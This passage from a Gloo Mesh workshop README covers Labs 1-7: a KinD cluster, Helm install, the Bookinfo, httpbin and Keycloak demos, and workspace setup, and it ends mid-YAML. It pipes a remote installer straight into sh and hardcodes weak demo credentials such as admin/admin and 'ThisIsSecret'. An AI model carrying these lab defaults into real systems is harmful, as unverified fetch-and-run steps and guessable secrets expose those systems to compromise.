


<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>Gloo Gateway Standalone with Portal</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy a KinD cluster](#lab-1---deploy-a-kind-cluster-)
* [Lab 2 - Deploy and register Gloo Mesh](#lab-2---deploy-and-register-gloo-mesh-)
* [Lab 3 - Deploy the Bookinfo demo app](#lab-3---deploy-the-bookinfo-demo-app-)
* [Lab 4 - Deploy the httpbin demo app](#lab-4---deploy-the-httpbin-demo-app-)
* [Lab 5 - Deploy Keycloak](#lab-5---deploy-keycloak-)
* [Lab 6 - Create the gateways workspace](#lab-6---create-the-gateways-workspace-)
* [Lab 7 - Create the bookinfo workspace](#lab-7---create-the-bookinfo-workspace-)
* [Lab 8 - Expose the productpage through a gateway](#lab-8---expose-the-productpage-through-a-gateway-)
* [Lab 9 - Create the httpbin workspace](#lab-9---create-the-httpbin-workspace-)
* [Lab 10 - Expose the httpbin service](#lab-10---expose-the-httpbin-service-)
* [Lab 11 - Securing the access with OAuth](#lab-11---securing-the-access-with-oauth-)
* [Lab 12 - Use the JWT filter to create headers from claims](#lab-12---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 13 - Use the transformation filter to manipulate headers](#lab-13---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 14 - Use the Web Application Firewall filter](#lab-14---use-the-web-application-firewall-filter-)
* [Lab 15 - Use the WAF to block based on source country](#lab-15---use-the-waf-to-block-based-on-source-country-)
* [Lab 16 - Expose the productpage API securely](#lab-16---expose-the-productpage-api-securely-)
* [Lab 17 - Expose the dev portal backend](#lab-17---expose-the-dev-portal-backend-)
* [Lab 18 - Deploy and expose the dev portal frontend](#lab-18---deploy-and-expose-the-dev-portal-frontend-)
* [Lab 19 - Envoy attributes to headers with WebAssembly](#lab-19---envoy-attributes-to-headers-with-webassembly-)
* [Lab 20 - Validate user information based on API key metadata](#lab-20---validate-user-information-based-on-api-key-metadata-)
* [Lab 21 - Validate user information with API key metadata and an external service](#lab-21---validate-user-information-with-api-key-metadata-and-an-external-service-)
* [Lab 22 - Allow users to create their own API keys](#lab-22---allow-users-to-create-their-own-api-keys-)
* [Lab 23 - Allow users to import API keys from an external system](#lab-23---allow-users-to-import-api-keys-from-an-external-system-)
* [Lab 24 - Dev portal monetization](#lab-24---dev-portal-monetization-)


## Introduction <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) is a management plane which makes it easy to operate [Istio](https://istio.io) on one or many Kubernetes clusters deployed anywhere (any platform, anywhere).

### Istio support

The Gloo Mesh Enterprise subscription includes end to end Istio support:

- Upstream first
- Specialty builds available (FIPS, ARM, etc)
- Long Term Support (LTS) N-4 
- Critical security patches
- Production break-fix
- One hour SLA Severity 1
- Install / upgrade
- Architecture and operational guidance, best practices

### Gloo Mesh overview

Gloo Mesh provides many unique features, including:

- multi-tenancy based on global workspaces
- zero trust enforcement
- global observability (centralized metrics and access logging)
- simplified cross cluster communications (using virtual destinations)
- advanced gateway capabilities (oauth, jwt, transformations, rate limiting, web application firewall, ...)


### Want to learn more about Gloo Mesh

You can find more information about Gloo Mesh in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)


## Lab 1 - Deploy a KinD cluster <a name="lab-1---deploy-a-kind-cluster-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=cluster1
export CLUSTER1=cluster1
```

Run the following commands to deploy a Kubernetes cluster using [Kind](https://kind.sigs.k8s.io/):

```bash
./scripts/deploy.sh 1 cluster1 us-west us-west-1
```

Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh cluster1
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, when you execute the `kubectl get pods -A` command, you should see the following:

```
NAMESPACE            NAME                                          READY   STATUS    RESTARTS   AGE
kube-system          calico-kube-controllers-59d85c5c84-sbk4k      1/1     Running   0          4h26m
kube-system          calico-node-przxs                             1/1     Running   0          4h26m
kube-system          coredns-6955765f44-ln8f5                      1/1     Running   0          4h26m
kube-system          coredns-6955765f44-s7xxx                      1/1     Running   0          4h26m
kube-system          etcd-cluster1-control-plane                   1/1     Running   0          4h27m
kube-system          kube-apiserver-cluster1-control-plane         1/1     Running   0          4h27m
kube-system          kube-controller-manager-cluster1-control-plane1/1     Running   0          4h27m
kube-system          kube-proxy-ksvzw                              1/1     Running   0          4h26m
kube-system          kube-scheduler-cluster1-control-plane         1/1     Running   0          4h27m
local-path-storage   local-path-provisioner-58f6947c7-lfmdx        1/1     Running   0          4h26m
metallb-system       controller-5c9894b5cd-cn9x2                   1/1     Running   0          4h26m
metallb-system       speaker-d7jkp                                 1/1     Running   0          4h26m
```


## Lab 2 - Deploy and register Gloo Mesh <a name="lab-2---deploy-and-register-gloo-mesh-"></a>
[](https://youtu.be/djfFiepK4GY "Video Link")


First of all, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.4.0
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```

Run the following commands to deploy the Gloo Mesh management plane:

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).to.not.be.empty
    expect(process.env.CLUSTER1).to.not.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).to.not.be.empty
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
helm repo add gloo-platform https://storage.googleapis.com/gloo-platform/helm-charts
helm repo update
kubectl --context ${MGMT} create ns gloo-mesh
kubectl --context ${MGMT} create ns gloo-mesh-addons
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.4.0
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.4.0 \
 -f -<<EOF
licensing:
  licenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: cluster1
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
  registerCluster: true
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
clickhouse:
  enabled: true
  persistence:
    enabled: false
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
telemetryGatewayCustomization:
  pipelines:
    logs/clickhouse:
      enabled: true
  extraExporters:
    clickhouse:
      password: password
glooUi:
  enabled: true
  serviceType: LoadBalancer
glooPortalServer:
  enabled: true
  apiKeyStorage:
    redis:
      enabled: true
      address: redis.gloo-mesh-addons:6379
    secretKey: ThisIsSecret
extAuthService:
  enabled: true
  extAuth: 
    apiKeyStorage: 
      name: redis
      enabled: true
      config: 
        connection: 
          host: redis.gloo-mesh-addons:6379
      secretKey: ThisIsSecret
rateLimiter:
  enabled: true
istioInstallations:
  enabled: true
  northSouthGateways:
    - enabled: true
      name: istio-ingressgateway
      installations:
        - clusters:
          - name: cluster1
            activeGateway: false
          gatewayRevision: auto
          istioOperatorSpec:
            hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
            tag: 1.18.2-solo
            profile: empty
            components:
              ingressGateways:
                - name: istio-ingressgateway
                  namespace: istio-gateways
                  enabled: true
                  label:
                    istio: ingressgateway
glooAgent:
  enabled: true
  relay:
    serverAddress: gloo-mesh-mgmt-server:9900
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  presets:
    logsCollection:
      enabled: true
      storeCheckpoints: true
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: gloo-telemetry-gateway:4317
telemetryCollectorCustomization:
  pipelines:
    logs/istio_access_logs:
      enabled: true
EOF
kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
kubectl --context ${MGMT} delete workspaces -A --all
until [[ $(kubectl --context ${MGMT} -n istio-gateways get deploy -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]]; do
  sleep 1
done
```
<!--bash
kubectl --context ${MGMT} scale --replicas=0 -n gloo-mesh deploy/gloo-mesh-ui
kubectl --context ${MGMT} rollout status -n gloo-mesh deploy/gloo-mesh-ui
-->
<!--bash
kubectl wait --context ${MGMT} --for=condition=Ready -n gloo-mesh --all pod
until [[ $(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->
Create a secret with the password to use to store access logs in Clickhouse:

```bash
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: clickhouse-auth
  namespace: gloo-mesh
type: Opaque
data:
  # password = password
  password: cGFzc3dvcmQ=
EOF
```
For teams to setup external authentication, the gateways team needs to create and `ExtAuthServer` object they can reference.

Let's create the `ExtAuthServer` object: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: ExtAuthServer
metadata:
  name: ext-auth-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: ext-auth-service
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

For teams to setup rate limiting, the gateways team needs to create and `RateLimitServerSettings` object they can reference.

Let's create the `RateLimitServerSettings` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: gloo-mesh-addons
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Set the environment variable for the service corresponding to the Istio Ingress Gateway of the cluster(s):

```bash
export ENDPOINT_HTTP_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[].status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[].status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER1=$(echo ${ENDPOINT_HTTP_GW_CLUSTER1} | cut -d: -f1)
```


## Lab 3 - Deploy the Bookinfo demo app <a name="lab-3---deploy-the-bookinfo-demo-app-"></a>
[](https://youtu.be/nzYcrjalY5A "Video Link")

We're going to deploy the bookinfo application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](https://istio.io/latest/docs/examples/bookinfo/).

Run the following commands to deploy the bookinfo application on `cluster1`:

```bash
curl https://raw.githubusercontent.com/istio/istio/release-1.16/samples/bookinfo/platform/kube/bookinfo.yaml > bookinfo.yaml

kubectl --context ${CLUSTER1} create ns bookinfo-frontends
kubectl --context ${CLUSTER1} create ns bookinfo-backends
# deploy the frontend bookinfo service in the bookinfo-frontends namespace
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'account in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-frontends apply -f bookinfo.yaml -l 'app in (productpage)'
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'account in (reviews,ratings,details)'
# deploy the backend bookinfo services in the bookinfo-backends namespace for all versions less than v3
kubectl --context ${CLUSTER1} -n bookinfo-backends apply -f bookinfo.yaml -l 'app in (reviews,ratings,details),version notin (v3)'
# Update the productpage deployment to set the environment variables to define where the backend services are running
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 DETAILS_HOSTNAME=details.bookinfo-backends.svc.cluster.local
kubectl --context ${CLUSTER1} -n bookinfo-frontends set env deploy/productpage-v1 REVIEWS_HOSTNAME=reviews.bookinfo-backends.svc.cluster.local
# Update the reviews service to display where it is coming from
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v1 CLUSTER_NAME=${CLUSTER1}
kubectl --context ${CLUSTER1} -n bookinfo-backends set env deploy/reviews-v2 CLUSTER_NAME=${CLUSTER1}
```


<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-frontends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 1 ]]; do
  sleep 1
done
until [[ $(kubectl --context ${CLUSTER1} -n bookinfo-backends get deploy -o json | jq '[.items[].status.readyReplicas] | add') -eq 4 ]]; do
  sleep 1
done
-->

You can check that the app is running using the following command:

```
kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods && kubectl --context ${CLUSTER1} -n bookinfo-backends get pods
```

Note that we deployed the `productpage` service in the `bookinfo-frontends` namespace and the other services in the `bookinfo-backends` namespace.

And we deployed the `v1` and `v2` versions of the `reviews` microservice, not the `v3` version.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 4 - Deploy the httpbin demo app <a name="lab-4---deploy-the-httpbin-demo-app-"></a>
[](https://youtu.be/w1xB-o_gHs0 "Video Link")

We're going to deploy the httpbin application to demonstrate several features of Gloo Mesh.

You can find more information about this application [here](http://httpbin.org/).


Run the following commands to deploy the httpbin app on `cluster1`. The deployment will be called `not-in-mesh` and won't have the sidecar injected (because we don't label the namespace).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: not-in-mesh
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: not-in-mesh
  namespace: httpbin
  labels:
    app: not-in-mesh
    service: not-in-mesh
spec:
  ports:
  - name: http
    port: 8000
    targetPort: 80
  selector:
    app: not-in-mesh
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: not-in-mesh
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: not-in-mesh
      version: v1
  template:
    metadata:
      labels:
        app: not-in-mesh
        version: v1
    spec:
      serviceAccountName: not-in-mesh
      containers:
      - image: docker.io/kennethreitz/httpbin
        imagePullPolicy: IfNotPresent
        name: not-in-mesh
        ports:
        - containerPort: 80
EOF
```


You can follow the progress using the following command:

```
kubectl --context ${CLUSTER1} -n httpbin get pods
```

```
NAME                           READY   STATUS    RESTARTS   AGE
not-in-mesh-5c64bb49cd-m9kwm   1/1     Running   0          11s
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  
  let deployments = ["not-in-mesh"];
  
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 5 - Deploy Keycloak <a name="lab-5---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users. 

OIDC (OpenID Connect) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers – or support multiple ones at the same time – with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

Let's install it:

```bash
kubectl --context ${MGMT} create namespace keycloak

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:20.0.1
        args: ["start-dev"]
        env:
        - name: KEYCLOAK_ADMIN
          value: "admin"
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: "admin"
        - name: PROXY_ADDRESS_FORWARDING
          value: "true"
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/master
            port: 8080
EOF

kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```


<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Then, we will configure it and create two users:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

<!--bash
until [[ $(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/master/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/master/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->

Now, we need to get a token:

```bash
export KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```

After that, we configure Keycloak:

```bash
# Create initial token to register the client
read -r client token <<<$(curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"expiration": 0, "count": 1}' $KEYCLOAK_URL/admin/realms/master/clients-initial-access | jq -r '[.id, .token] | @tsv')
export KEYCLOAK_CLIENT=${client}

# Register the client
read -r id secret <<<$(curl -m 2 -X POST -d "{ \"clientId\": \"${KEYCLOAK_CLIENT}\" }" -H "Content-Type:application/json" -H "Authorization: bearer ${token}" ${KEYCLOAK_URL}/realms/master/clients-registrations/default| jq -r '[.id, .secret] | @tsv')
export KEYCLOAK_SECRET=${secret}

# Add allowed redirect URIs
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X PUT -H "Content-Type: application/json" -d '{"serviceAccountsEnabled": true, "directAccessGrantsEnabled": true, "authorizationServicesEnabled": true, "redirectUris": ["'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/callback","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/portal-server/v1/login","'https://${ENDPOINT_HTTPS_GW_CLUSTER1}'/get"]}' $KEYCLOAK_URL/admin/realms/master/clients/${id}

# Add the group attribute in the JWT token returned by Keycloak
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"name": "group", "protocol": "openid-connect", "protocolMapper": "oidc-usermodel-attribute-mapper", "config": {"claim.name": "group", "jsonType.label": "String", "user.attribute": "group", "id.token.claim": "true", "access.token.claim": "true"}}' $KEYCLOAK_URL/admin/realms/master/clients/${id}/protocol-mappers/models

# Create first user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user1", "email": "user1@example.com", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users

# Create second user
curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"username": "user2", "email": "user2@solo.io", "enabled": true, "attributes": {"group": "users"}, "credentials": [{"type": "password", "value": "password", "temporary": false}]}' $KEYCLOAK_URL/admin/realms/master/users
```

> **Note:** If you get a *Not Authorized* error, please, re-run this command and continue from the command started to fail:

```
KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```


## Lab 6 - Create the gateways workspace <a name="lab-6---create-the-gateways-workspace-"></a>
[](https://youtu.be/QeVBH0eswWw "Video Link")

We're going to create a workspace for the team in charge of the Gateways.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Then, the Gateway team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `gateways` workspace (so the `istio-gateways` or the `gloo-mesh-addons` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: gateways
  namespace: gloo-mesh-addons
spec:
  importFrom:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
    - kind: ALL
      labels:
        expose: "true"
  exportTo:
  - workspaces:
    - selector:
        allow_ingress: "true"
    resources:
    - kind: SERVICE
EOF
```

The Gateway team has decided to import the following from the workspaces that have the label `allow_ingress` set to `true` (using a selector):
- all the Kubernetes services exported by these workspaces
- all the resources (RouteTables, VirtualDestination, ...) exported by these workspaces that have the label `expose` set to `true`


## Lab 7 - Create the bookinfo workspace <a name="lab-7---create-the-bookinfo-workspace-"></a>

We're going to create a workspace for the team in charge of the Bookinfo application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Then, the Bookinfo team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `bookinfo` workspace (so the `bookinfo-frontends` or the `bookinfo-backends` namespace):

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
